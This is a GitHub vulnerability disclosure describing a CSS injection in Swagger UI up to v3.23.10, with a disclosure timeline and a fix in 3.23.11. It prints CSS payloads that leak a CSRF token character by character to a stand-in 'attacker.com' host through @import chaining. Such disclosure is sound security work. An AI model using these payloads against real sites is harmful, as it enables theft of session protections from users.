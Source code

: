 # CSS-injection-in-Swagger-UI

We have found a CSS Injection vulnerability on Swagger UI that allows attacker to use the Relative Path Overwrite (RPO) [1][2] technique to perform CSS-based input field value exfiltration. In our PoC, we were able to successfully steal the CSRF token value.

**Researcher: Kevinlpd (DatLP) of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Swagger UI

Swagger UI allows anyone — be it your development team or your end consumers — to visualize and interact with the API’s resources without having any of the implementation logic in place. It’s automatically generated from your OpenAPI (formerly known as Swagger) Specification, with the visual documentation making it easy for back end implementation and client side consumption.

## Background

We've discovered the vulnerability when reading the following in the document of Swagger [3]:

```
We’ve observed that the ?url= parameter in SwaggerUI allows an attacker to override an otherwise hard-coded schema file.
The decision was made to put this in the public issue tracker because (a) we aren't going to immediately fix this, and (b) the attack surface for this is significantly diminished by our effective sanitization efforts to deter XSS attacks in documents used as input.
```
Swagger had known the issue, but Swagger thought that this vulnerability could not lead to an Cross-Site Scripting (XSS) exploit, so they ignored it. So we have decided to further research on this issue. 

### Injection step:

We realize that Swagger UI allows users to embed untrusted Json format from remote servers 

```javascript
var url = window.location.search.match(/url=([^&]+)/);
// ...
url = options.swaggerUrl || url
// ...
var swaggerOptions = {
    spec: spec1,
url: url, // ...
}
var ui = SwaggerUIBundle(swaggerOptions)
```

This means we can inject json content via the GET parameter to victim Swagger UI. In the json content we use the <style> tag and CSS @import rule to load the CSS payload:
    
![](PoC-RPO-1.png)
    
### Exfiltration step:

With CSS payload, we can use Relative Path Overwrite (RPO) technique to perform CSS-based input field value exfiltration [4]. The following CSS code will generate a callback query to the attacker's server (https://attacker.com/exfil/a) if the CSRF token value starts with the character a, similarly it will make other requests (https://attacker.com/exfil/b; https://attacker.com/exfil/c; https://attacker.com/exfil/d, etc) if the CSRF token value begins with character b, character c or character d. Continue to try in turn for each character in range A-Z and range 0-9 until we found the first character in the CSRF token value:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);
```
And after we have found the first character in the CSRF token value, we will continue to search for the second character and so on:

```css
input[name=csrf][value^=aa]{
    background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
    background-image: url(https://attacker.com/exfil/cb);
}
 ...
input[name=csrf][value^=a9]{
    background-image: url(https://attacker.com/exfil/c9);
```

With sequential @import chaining as below so we can steal full of CSRF token value:

![](sequential%20import%20chaining.png)

You can automate all of step by using the [sic](https://github.com/d0nutptr/sic) tool [5]

And we got the following result:

![](PoC-RPO-2.png)

    
## Tested versions

Swagger UI v3.23.10 and earlier

## Disclosure timeline

- September 17, 2019: Report and discuss with maintainer for Swagger UI.
- September 20, 2019: Ask maintainer for vulnerability disclosure.
- September 21, 2019: Swagger UI has released a new version that has addressed the vulnerability.
- September 21, 2019: Get approval from maintainer for disclosure on October 6, 2019.


## Reference

1. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
2. [Detecting and exploiting path‐relative stylesheet import (PRSSI) vulnerabilities | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
4. [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [GitHub ‐ d0nutptr/sic: A tool to perform Sequential Import Chaining](https://github.com/d0nutptr/sic)
6. [Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
7. [Better Exfiltration via HTML Injection ‐ d0nut ‐ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‐s3_css_injection_attacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an `enableQueryConfig` option issue #4872](https://github.com/swagger-api/swagger-ui/issues/4872)
11. [mitigate "sequential @import chaining" vulnerability issue #5616 ](https://github.com/swagger-api/swagger-ui/pull/5616)
12. [Swagger UI 3.23.11 Released! This release contains a security fix that addresses a CSS-based input field value exfiltration vulnerability](https://github.com/swagger-api/swagger-ui/releases/tag/v3.23.11)


